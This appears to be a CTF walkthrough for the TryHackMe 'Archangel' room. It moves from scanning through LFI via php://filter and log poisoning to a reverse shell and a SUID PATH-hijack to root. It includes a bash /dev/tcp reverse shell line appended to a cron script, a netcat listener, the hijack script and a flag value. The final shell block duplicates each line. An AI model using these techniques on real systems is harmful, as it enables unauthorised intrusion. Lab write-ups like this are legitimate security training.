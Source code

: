 ```yaml
---

title: Walkthrough - Archangel
published: True
---
```


Boot2root, Web Exploitation, Privilege Escalation, LFI. A well known security solutions company seems to be doing some testing on their live machine. Best time to exploit it.

[https://tryhackme.com/room/archangel](https://tryhackme.com/room/archangel)

* * *

## Get a shell

- nmap

```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9f:1d:2c:9d:6c:a4:0e:46:40:50:6f:ed:cf:1c:f3:8c (RSA)
|   256 63:73:27:c7:61:04:25:6a:08:70:7a:36:b2:f2:84:0d (ECDSA)
|_  256 b6:4e:d2:9c:37:85:d6:76:53:e8:c4:e0:48:1c:ae:6c (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Wavefire
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- gobuster scans

```shell
/pages                (Status: 301) [Size: 314] [--> http://10.10.100.253/pages/]
/images               (Status: 301) [Size: 315] [--> http://10.10.100.253/images/]
/flags                (Status: 301) [Size: 314] [--> http://10.10.100.253/flags/] 
/layout               (Status: 301) [Size: 315] [--> http://10.10.100.253/layout/]
```

**Find a different hostname**

![0xskar](/assets/archangel01.png)

- checking the source code of ``http://10.10.100.253`` we find ``support@mafialive.thm`` we can add this domain to the hosts file  to continue enumeration. After traveling there we find our first flag.

**Find flag 1**

![0xskar](/assets/archangel02.png)

**Look for a page under development**

- ``gobuster dir -u http://mafialive.thm/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 500 -x php,txt --no-error``
- we find a page but we canty view the code in test.php have to find a way around this.
- ``curl -s http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php`` using ``php://filter`` allows us to bypass the protection and ``convert.base64-encode/resource=`` lets us encode test.php as base64 lets see what we are working with

**Find flag 2**

```php
<?php

	    //FLAG: thm{explo1t1ng_lf1}

            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    if(isset($_GET["view"])){
	    if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
            	include $_GET['view'];
            }else{

		echo 'Sorry, Thats not allowed';
            }
	}
        ?>
```

**Get a shell and find the user flag**

- the url must not contain ``../..`` but must contain ``/var/www/html/development_testing``
- so we need to use LFI Log Poisoning...having never attempted this before going to follow [this writeup](https://shahjerry33.medium.com/rce-via-lfi-log-poisoning-the-death-potion-c0831cebc16d).
- we can setup php webserver with php reverse shell and get this over to the target machine by poisining the log file with thee user-agent.

- start by poising the logfile with the php payload in the user-agent string

![0xskar](/assets/archangel03.png)

- we get ``cmd=id HTTP/1.1" 200 997 "-" "uid=33(www-data) gid=33(www-data) groups=33(www-data) " ``
- now we can wget our reverse shell, then traverse to open up the reverse shell when we have our netcat listener setup.

* * * 

## What is the user flag?

![0xskar](/assets/archangel04.png)

* * * 

## What is the root flag?

- checking the ``/etc/crontab`` can see that we can move to archangel - ``echo "sh -i >& /dev/tcp/10.2.127.225/6670 0>&1" >> /opt/helloworld.sh``
- setup listener ``rlwrap nc -lvnp 6670``

![0xskar](/assets/archangel05.png)

- Now that we found user 2 flag we can continue escaliation to root.

- ``find / -perm -u=s -type f 2>/dev/null`` we can see that ``/home/archangel/secret/backup`` has a suid set
- checking out the backup file with ``strings`` we can see it runs ``cp`` but doesnt use a path so we can take advantage of this and leave a cp program in the directory for it to run.

```shell
cat > cp << EOF
cat > cp << EOF
#!/bin/bash
#!/bin/bash
/bin/bash -i
/bin/bash -i
EOF
EOF
chmod +x cp
chmod +x cp
export PATH=/home/archangel/secret:$PATH
export PATH=/home/archangel/secret:$PATH
./backup
./backup
id
id
uid=0(root) gid=0(root) groups=0(root),1001(archangel)
root@ubuntu:~/secret# 
```

- ``cat /root/root.txt``

* * * 

